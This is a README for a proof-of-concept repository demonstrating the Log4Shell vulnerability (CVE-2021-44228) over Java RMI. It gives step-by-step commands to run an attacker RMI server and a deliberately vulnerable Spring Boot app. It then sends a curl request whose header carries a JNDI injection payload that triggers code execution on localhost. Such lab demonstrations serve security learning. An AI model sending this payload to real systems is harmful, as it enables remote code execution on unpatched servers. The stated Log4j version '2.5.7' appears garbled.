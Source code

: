 # log4shell-rmi-poc
A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
It uses Log4j 2.5.7 from spring-boot-starter-log4j2


## Requirements:

Tested with Java 8 (JDK 1.8.0_25) and Java 11 (JDK 11.0.1)

## How to run the POC

### 1. Clone the repo:
```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd Log4jshell_rmi_server

./mvnw clean package

java -jar target/Log4jshell.rmi.server-0.0.1-SNAPSHOT.jar
```

You should get something like this:

![alt text] (https://github.com/Labout/log4shell-rmi-poc/blob/master/rmi_server.png)


### 3. Start the vulnerable Log4j application (here a spring boot application)

In a new Terminal 

```bash
cd vulnerabel_log4j_app

./mvnw clean package

java -jar target/vulnerabel_log4j_app-0.0.1-SNAPSHOT.jar
```


### 4. Inject a vulnerable JNDI over the "Accept-version" header

```bash
curl 'http://localhost:8080/hello' --header 'Accept-Version: ${jndi:rmi://127.0.0.1:1099/ExecByEL}'
```

As you can see the the vulnerable app calls the Calculator app.

![alt text] (https://github.com/Labout/log4shell-rmi-poc/blob/master/exploit.png)

## References 
https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
https://www.lunasec.io/docs/blog/log4j-zero-day/